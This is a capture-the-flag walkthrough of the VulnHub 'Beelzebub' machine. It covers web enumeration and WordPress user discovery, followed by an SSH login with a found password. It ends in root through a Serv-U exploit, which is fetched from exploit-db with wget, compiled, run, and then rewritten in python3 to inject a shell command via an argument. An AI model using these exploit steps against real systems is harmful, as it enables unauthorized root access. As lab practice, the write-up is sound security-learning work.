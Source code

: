 # Beelzebub

Link: https://www.vulnhub.com/entry/beelzebub-1,742/  
Level: Easy  
Credits:  Shaurya Sharma  

## Description

Difficulty: Easy

You have to enumerate as much as you can and don't forget about the Base64.  
For hints add me on  
Twitter- ShauryaSharma05  

---

## Enumeration

Nmap 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Ffuf



Nikto



```
http://192.168.1.175/phpinfo.php
http://192.168.1.175/phpmyadmin/
```

![image](https://user-images.githubusercontent.com/5285547/136195726-5cfe5b93-818b-4232-9e71-645d63e7aca9.png)

Encoding to MD5

```
$ echo -n "beelzebub"  | md5sum
d18e1e22becbd915b45e0e655429d487
```

New path to fuzz

```
http://IP/d18e1e22becbd915b45e0e655429d487/

ffuf -u http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -mc all -fc 404,403 -ic  -c

wp-content              [Status: 301, Size: 352, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 353, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 350, Words: 20, Lines: 10]
```

```
wpscan --url http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/ --ignore-main-redirect --force -e 

[i] User(s) Identified:

[+] krampus
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] valak
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

```
http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/wp-login.php
```

![image](https://user-images.githubusercontent.com/5285547/136202391-5ec0a7b2-82f1-46fa-9ea8-8b2853d7363b.png)

We get a new portal. 

http://192.168.1.175/d18e1e22becbd915b45e0e655429d487/wp-content/uploads/Talk%20To%20VALAK/

![image](https://user-images.githubusercontent.com/5285547/136202440-0eb2e755-257d-4676-838a-ec3156db9db2.png)

![image](https://user-images.githubusercontent.com/5285547/136202627-b78616e2-a251-458b-adaa-233ed358eb70.png)



## User

```
ssh krampus@IP
M4k3Ad3a1
```

```
krampus@beelzebub:~/Desktop$ cat user.txt
aq12uu909a0q921a2819b05568a992m9
```

## Root

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'P0k3M0n' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

```
find / -prem -u=s -type f 2>/dev/null
cd /usr/local/Serv-U/
ls
cd
clear
ps -aux
ps -a
ps -a -U root
ps -a -U root | grep 'Serv'
ps -U root -au
ps -U root -au | sort -u
clear
cd /tmp/
clear
find / -prem -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
clear
find / -perm -u=s -type f 2>/dev/null
clear
wget https://www.exploit-db.com/download/47009
clear
ls
clear
mv 47009 ./exploit.c
gcc exploit.c -o exploit
./exploit 
cd ../../../../../../../
ls
cd cd
cd
grep -r 'beelzebub'
grep -r 'love'
cd .local/share
```


```
mv 47009 ./exploit.c
gcc exploit.c -o exploit
./exploit 
cd ../../../../../../../
ls
cd cd
cd
grep -r 'beelzebub'
grep -r 'love'
cd .local/share
```

Exploit: https://www.exploit-db.com/exploits/47009

I found the exploit on exploit-db, then went to the writeup for the exploit to learn more. Then I constructed the same exploit in python3. 

python3 version
```
import os
args = ("\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", )
os.execv("/usr/local/Serv-U/Serv-U", args)
print("If you see this, the exploit failed")
```

![image](https://user-images.githubusercontent.com/5285547/136214584-279f8b94-f85d-4788-95bd-0c652d1351d5.png)


## Conclusion

Aweosome box, it was nice to be able to play with the exploit and know it can work in python too! 
